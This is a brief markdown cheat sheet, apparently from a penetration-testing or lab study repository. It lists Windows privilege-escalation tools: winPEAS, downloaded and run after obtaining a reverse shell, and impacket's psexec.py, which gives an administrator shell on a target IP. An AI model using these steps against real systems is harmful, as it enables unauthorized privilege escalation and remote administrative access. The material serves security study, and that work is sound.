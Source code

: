 There are several tools that can help us escalate privileges on Windows machines.

- [winPEAS.exe](#wpeas)
- [psexec.py](#pspy)


# winPEAS.exe <a name="wpeas"></a>

winPEAS.exe is an executable that, once we have a reverse shell, will display files with possible critical information in red.

Example:

1. First, download it using PowerShell:
````bash
wget https://github.com/carlospolop/PEASS-ng/releases/tag/20231002-59c6f6e6
````
2.  Switch to PowerShell in your terminal: 
````bash
powershell
````
3. Finally, execute winPEAS.exe:
````bash
C:\Users\sql_svc\Downloads> .\winPEASx64.exe
````



# psexec.py <a name="pspy"></a>

- psexec.py is a tool from impacket that allows us to obtain a shell as an administrator.

````bash
python3 psexec.py administrator@{TARGET_IP}
````